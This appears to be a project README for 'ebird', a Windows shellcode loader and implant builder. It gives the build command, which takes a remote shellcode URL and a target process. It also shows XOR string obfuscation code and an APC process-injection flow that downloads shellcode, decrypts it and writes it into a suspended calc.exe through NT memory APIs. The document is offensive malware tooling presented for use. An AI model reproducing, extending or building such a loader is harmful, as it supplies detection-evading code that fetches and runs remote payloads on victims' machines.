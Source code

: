 
<img width="1401" height="707" alt="image" src="https://github.com/user-attachments/assets/268a2750-ede9-4967-ab20-378f29fd5acb" />

---

## 📦 Build Process

The `gen_ebird3.sh` script generates:
- `ebird2.c`: The main implant source code with embedded obfuscated configuration.
- `Makefile`: Cross-compilation rules using MinGW-w64.

### Build Requirements

```bash
sudo apt install mingw-w64
```
### Build
```bash
./gen_ebird3.sh \
  --target windows \
  --url "http://192.168.1.100/shellcode.txt" \
  --process-name "C:/Windows/System32/calc.exe" \
  --key 0x33
```
> ✅ Output: ebird2.exe — a fully self-contained Windows executable.

## 🧩 Code Architecture
1. String Obfuscation
All strings are XOR-encoded at compile time using a user-provided key (default: 0x33):

```c
unsigned char OBF_SHELLCODE_URL[] = { 0x12, 0x34, ... };
```

Decoded at runtime via:

```c
void xor_string(char* data, size_t len, char key) {
    for (int i = 0; i < len; i++) data[i] ^= key;
}
```

2. Shellcode Download & Extraction

- Parses HTTP response body.
- Extracts shellcode in \xNN\xNN... format.
- Applies XOR decryption using the same key.
- Enforces size limit: 2 MB by default.

3. Process Injection Flow

```c
1. Create target process (e.g., calc.exe) in SUSPENDED state
2. Resolve NtAllocateVirtualMemory → Allocate RWX memory
3. Resolve NtWriteVirtualMemory → Write shellcode
4. Resolve NtQueueApcThread → Queue APC to remote thread
5. Resume thread → APC executes shellcode
```
